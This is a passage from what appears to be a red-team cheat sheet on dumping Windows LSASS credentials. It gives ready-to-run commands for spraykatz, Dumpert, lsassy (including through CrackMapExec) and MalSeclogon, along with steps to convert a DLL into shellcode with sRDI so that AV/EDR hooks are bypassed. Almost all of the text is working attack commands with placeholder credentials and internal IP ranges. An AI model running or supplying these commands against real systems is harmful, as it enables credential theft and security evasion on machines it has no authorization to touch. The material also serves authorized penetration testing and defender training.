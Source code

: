 

### spraykatz

* [https://github.com/aas-n/spraykatz](https://github.com/aas-n/spraykatz)

```
$ python3 spraykatz.py -u snovvcrash -p 'Passw0rd!' -t 10.10.13.37,10.10.13.38,10.10.13.39
```



### Dumpert

* [https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/](https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/)
* [https://github.com/outflanknl/Dumpert](https://github.com/outflanknl/Dumpert)

Dump lsass.exe using direct syscalls and removing user-land API hooks:

```
Cmd > rundll32.exe .\Outflank-Dumpert-DLL.dll,Dump
```

Using [sRDI](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/) (**s**hellcode **R**eflective **D**LL **I**njection) technique:

1. Compile [*Outflank-Dumpert-DLL.dll*](https://github.com/outflanknl/Dumpert/tree/master/Dumpert-DLL).
2. Convert it to position independent shellcode with [*ConvertToShellcode.py*](https://github.com/monoxgas/sRDI/blob/master/Python/ConvertToShellcode.py): `python3 ConvertToShellcode.py Outflank-Dumpert-DLL.dll`.
3. Use a shellcode loader of your choice to dump LSASS.



### lsassy

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)
* [https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/lsassy.py)
* [https://en.hackndo.com/remote-lsass-dump-passwords/](https://en.hackndo.com/remote-lsass-dump-passwords/)

```
$ lsassy 10.10.13.0/24 -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M lsassy
```



### MalSeclogon

- [https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
- [https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [https://github.com/antonioCoco/MalSeclogon](https://github.com/antonioCoco/MalSeclogon)

```
Cmd > Malseclogon.exe -p <LSASS_PID> -d 1
Cmd > Malseclogon.exe -p <LSASS_PID> -d 2
```
